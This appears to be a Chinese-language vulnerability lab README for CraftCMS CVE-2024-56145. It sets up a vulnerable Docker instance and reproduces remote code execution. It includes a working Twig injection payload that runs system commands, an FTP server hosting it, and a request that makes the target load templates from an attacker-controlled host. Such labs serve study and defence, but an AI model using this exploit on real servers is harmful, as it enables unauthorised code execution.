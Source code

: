 # CraftCMS `register_argc_argv` 导致远程代码执行漏洞（CVE-2024-56145）

CraftCMS 是一个基于 PHP 的内容管理系统，用于构建网站和应用程序。

CraftCMS 5.5.2 和 4.13.2 之前的版本存在潜在的远程代码执行漏洞。当 PHP 环境启用 `register_argc_argv` 时，CraftCMS 会错误地从 HTTP 请求中读取配置项，攻击者可以使用 `--templatesPath` 控制模板文件，并利用模板注入导致任意代码执行。

参考链接：

- <https://github.com/craftcms/cms/security/advisories/GHSA-2p6p-9rc9-62j9>
- <https://www.assetnote.io/resources/research/how-an-obscure-php-footgun-led-to-rce-in-craft-cms>

## 漏洞环境

执行以下命令启动一个 CraftCMS 5.5.1.1 服务器：

```
docker-compose up -d
```

服务器启动后，你可以在 `http://<your-ip>:8088/admin/install` 看到安装页面。请按照说明安装 CraftCMS，默认数据库地址为 `db`，用户名和密码均为 `root`。

![](1.png)

## 漏洞复现

要复现该漏洞，你需要准备一个包含以下内容的 `index.twig` 文件并放置在任意远程服务器上：

```twig
{{ ['system', 'id'] | sort('call_user_func') | join('') }}
```

然后在 `index.twig` 文件所在的服务器中启动一个 FTP 服务器：

```bash
# 安装 pyftpdlib
pip install pyftpdlib

# 启动 FTP 服务器
python -m pyftpdlib -p 21212 -V
```

然后你可以通过发送以下请求来利用该漏洞：

```
http://<your-ip>:8088/?--templatesPath=ftp://<evil-ip>:21212/
```

![](2.png)

如你所见，`id` 命令被成功执行并返回了结果。

